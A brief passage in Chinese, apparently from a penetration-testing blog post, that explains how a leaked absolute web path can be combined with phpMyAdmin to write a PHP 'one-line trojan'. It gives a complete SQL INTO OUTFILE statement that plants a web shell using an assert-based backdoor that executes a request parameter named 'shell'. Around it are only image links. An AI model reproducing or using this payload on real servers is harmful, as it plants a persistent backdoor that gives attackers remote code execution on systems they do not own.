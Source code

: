 ![upload successful](/images/pasted-919.png)

这里面显示了web服务的绝对路径，可以配合phpmyadmin执行sql语句写入一句话木马
![upload successful](/images/pasted-920.png)

```sql
select '<?php @assert($_REQUEST[\"shell\"]); ?>' into outfile \"C:/wamp/www/shell.php\"
```
